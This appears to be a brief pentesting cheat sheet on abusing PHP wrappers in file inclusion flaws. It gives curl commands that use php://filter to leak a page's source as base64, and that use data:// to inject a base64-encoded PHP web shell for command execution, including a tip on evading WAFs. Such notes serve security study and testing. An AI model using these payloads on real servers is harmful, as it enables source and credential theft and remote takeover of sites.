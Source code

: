 
This is a protocol wrapper that can be used to represent and access local or remote file systems.

These wrappers can enable us to read executable files, like a .php file, using `php://filter`. Using a filter with prevent the file from executing.

### Filter Wrapper

`curl http://url.com/directory/page.php?page=php://filter/convert.base64-encode/resource=specified.php` - filters the output of the page into an encoding that in viewable and non-executable like base64.

Now we can decode this output in our terminal to read the php logic.

`echo "phpoutputbase64796245jhsaf7" | base64 -d` - output the logic of php file in terminal - from this output we may be able to discover some sensitive information such as login credentials or other logic that may lead to vulnerability discovery.


### Data Wrapper

The data wrapper can be used to achieve code execution. It embeds data elements as plaintext or base64 data in the running web applications code. This offers an alternative method when we cannot poison a local file with php code.

1. `echo -n '<?php echo system($_GET['cmd']);?>' | base64` - some WAFs and firewalls will filter out obvious malicious code so first we encode out payload to be embedded
2. `curl "http://url/directory/index.php?page=data://text/plain;base64,BASE64OUTPUT==&cmd=ls"` - embed the php within the webpage to be executed.

`data://` php wrapper is not enabled by default - it must be enabled by `allow_url_include` to work.

This is a handy method to bypass basic filters.



